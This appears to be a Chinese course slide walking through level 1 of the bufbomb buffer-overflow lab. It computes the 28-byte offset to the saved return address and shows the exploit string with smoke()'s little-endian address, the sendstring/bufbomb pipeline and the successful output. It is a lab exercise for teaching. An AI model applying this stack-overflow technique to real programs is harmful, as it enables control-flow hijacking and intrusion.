

3 攻击操作（续4）：
        对于第一关：分析栈帧结构后可知，buf第一个元素的地址是ebp-0x18，而”返回地址”第一个字节的地址是ebp+0x04，两个位置的相差换算成换算成十进制就是0x04 - (-0x18) = 4 + 24 = 28。也就是说输入到缓冲区中的数据，要构造28个任意字符，然后加上smoke()的地址（注意小端表示）就能准确覆盖到”返回地址”，完成溢出攻击返回到smoke()。无关紧要的28字节区域可以用00~99来填充。故输入的字符串保存到0.txt，用cat查看0.txt内容：
$ cat 0.txt
00112233445566778899001122334455667788990011223344556677b08e0408
然后通过sendstring将0.txt转换成二进制格式，在通过管道输入到bufbomb中：
$ cat 0.txt|./sendstring |./bufbomb -t leo	leo要替换成同学自己的名字
Team: leo
Cookie: 0x76021cb1
Type string:Smoke!: You called smoke()